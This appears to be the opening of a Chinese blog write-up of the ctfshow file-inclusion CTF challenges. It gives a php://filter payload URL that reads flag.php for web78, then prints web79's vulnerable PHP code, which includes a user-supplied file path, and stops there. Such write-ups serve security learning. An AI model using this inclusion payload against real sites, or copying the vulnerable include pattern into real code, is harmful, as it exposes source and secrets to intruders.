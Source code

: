 ```yaml
---
title: "ctfshow Web入门[文件包含] Writeup"
date: 2022-08-04T11:32:16+08:00
draft: false
author: "X1r0z"

tags: ['ctf','php']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



文件包含

主要考察各种伪协议, 尤其是 php://filter



## web78

php 伪协议

`http://86039d93-a3f5-4dad-9f2e-1ae926e13f29.challenge.ctf.show/?file=php://filter/read=convert.base64-encode/resource=flag.php`

## web79

```php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```
